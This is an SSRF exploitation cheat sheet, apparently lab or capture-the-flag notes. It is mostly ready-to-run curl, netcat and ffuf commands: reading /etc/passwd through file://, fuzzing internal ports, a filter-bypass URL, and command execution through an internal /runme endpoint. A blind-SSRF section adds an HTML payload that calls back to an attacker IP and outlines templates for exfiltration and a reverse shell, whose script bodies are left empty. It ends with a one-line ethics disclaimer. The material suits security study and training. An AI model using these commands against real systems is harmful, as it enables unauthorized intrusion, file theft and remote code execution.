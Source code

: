 # Cheat Sheet: Server-Side Request Forgery (SSRF) Exploitation

## Introduction
- SSRF allows attackers to exploit servers to request internal/external resources.
- A successful SSRF attack can reveal sensitive information and lead to Remote Code Execution (RCE).

## Perform SSRF Enumeration
1. **Nmap Scan:**
   ```bash
   nmap -sT -T5 --min-rate=10000 -p- $TARGET
   ```

2. **Curl Commands:**
   - Initial request:
     ```bash
     curl -i -s http://$TARGET
     ```
   - Follow redirects:
     ```bash
     curl -s -i -L http://$TARGET
     ```

## Testing SSRF
1. **Netcat Listener:**
   ```bash
   nc -lnvp 8080
   ```

2. **Curl Test:**
   ```bash
   curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8080"
   ```

## Exploiting with Different Schemas
1. **HTTP Schema:**
   - Create `index.html` on attacker machine.
   - Start HTTP server:
     ```bash
     python3 -m http.server $PORT
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8000/index.html"
     ```

2. **FTP Schema:**
   - Set up FTP server on attacker:
     ```bash
     sudo pip3 install twisted
     sudo python3 -m twisted ftp -p 21 -r ~
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=ftp://$ATTACKER/index.html"
     ```

3. **File Schema:**
   - Retrieve `/etc/passwd`:
     ```bash
     curl -i -s "http://$TARGET/load?q=file:///etc/passwd"
     ```

## Further Exploitation
1. **Port Fuzzing:**
   - Create port wordlist:
     ```bash
     for port in {1..65535}; do echo $port >> ports.txt; done
     ```
   - Issue request on a random port:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:1"
     ```
   - Fuzz ports using ffuf:
     ```bash
     ffuf -w ./ports.txt:PORT -u "http://$TARGET/load?q=http://127.0.0.1:PORT" -fs 30
     ```

2. **Identify Open Port:**
   - Interact with services:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:5000"
     ```

## Exploiting Internal.app.local
1. **Curl Interaction:**
   - Interact with internal:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=index.html"
     ```

2. **Bypass Filter Protection:**
   - Bypass filter:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:1"
     ```

3. **Port Fuzzing for Internal:**
   - Fuzz ports with different Content-Length:
     ```bash
     ffuf -w ports.list:PORT -u "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:PORT" -fs 100
     ```

4. **Retrieve Interesting Files:**
   - Explore on port 5000:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/"
     ```

5. **Command Execution:**
   - Execute commands:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=id"
     ```

6. **URL-encode Payloads:**
   - Using Cyberchef or JQ for URL-encoding.

7. **Retrieve Flag:**
   - Retrieve flag:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=cat%2520/root/flag.txt"

     ```

# Blind SSRF Cheatsheet

## Introduction:

- **Blind SSRF:** Vulnerability where SSRF is present but not displayed on the front end.
- **Detection:** Test if the server processes requests to external resources (own services or Burp Collaborator).

## Exploitation:

1. **Payload Creation:**
   - Create an HTML file (payload) for the application.
   ```html
   <!DOCTYPE html>
   <html>
   <body>
     <a>Hello World!</a>
     <img src="http://<10.10.15.54:5555/x?=viaimgtag">
   </body>
   </html>
   ```
   
2. **Netcat Listener:**
   - Set up Netcat listener: `nc -lnvp 5555`

3. **Upload HTML File:**
   - Upload the HTML file to the target.
   - Confirm vulnerability if response seen in Netcat listener.

4. **Exfiltration via Blind SSRF:**
   - Create HTML file for exfiltration.
   ```html
   <html>
       <body>
           <b>Exfiltration via Blind SSRF</b>
           <script>
           // JavaScript code for exfiltration
           </script>
        </body>
   </html>
   ```
   - Set up Netcat listener.
   - Upload HTML file and decode the obtained data.

5. **Leverage wkhtmltopdf:**
   - wkhtmltopdf's vulnerability for server takeover.
   - Create HTML file for file reading and exfiltration.

6. **Reverse Shell via Blind SSRF:**
   - Create HTML file for reverse shell.
   ```html
   <html>
       <body>
           <b>Reverse Shell via Blind SSRF</b>
           <script>
           // JavaScript code for reverse shell
           </script>
       </body>
   </html>
   ```
   - Set up Netcat listener: `nc -lnvp 5555`
   - Upload HTML file to get a reverse shell.


*Note: Always ensure ethical and legal use of these techniques. Unauthorized access and exploitation of systems is against the law.*
